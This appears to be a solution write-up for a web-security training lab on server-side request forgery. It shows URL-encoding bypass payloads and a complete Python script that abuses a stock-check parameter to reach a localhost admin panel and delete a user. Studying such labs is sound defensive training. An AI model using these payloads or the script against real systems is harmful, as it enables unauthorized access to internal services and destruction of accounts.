 Vulnerable feature - stock check functionality

Goal - change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

Analysis:

Try:  http://localhost#@stock.weliketoshop.net
*url-encode # twice*

localhost: http://localhost%2523@stock.weliketoshop.net

admin interface:  http://localhost%2523@stock.weliketoshop.net/admin

delete carlos:  http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos

```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def delete_user(url):
    delete_user_ssrf_payload = 'http://localhost%23@stock.weliketoshop.net/admin/delete?username=carlos'
    check_stock_path = "/product/stock"
    params = {'stockApi': delete_user_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params, verify=False, proxies=proxies)

    # Check if user was deleted
    admin_page_ssrf_payload = 'http://localhost%23@stock.weliketoshop.net/admin'
    params2 = {'stockApi': admin_page_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params2, verify=False, proxies=proxies)
    if 'Carlos' not in r.text:
        print("(+) Successfully deleted Carlos user!")
    else:
        print("(-) Exploit was unsuccessful.")

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Deleting Carlos user...")
    delete_user(url)

if __name__ == "__main__":
    main()
```
RUN:
```bash
python3 ssrf-lab-04.py 'https://ac0b1f8d1ff73e428074793800860063.web-security-academy.net'
```
END!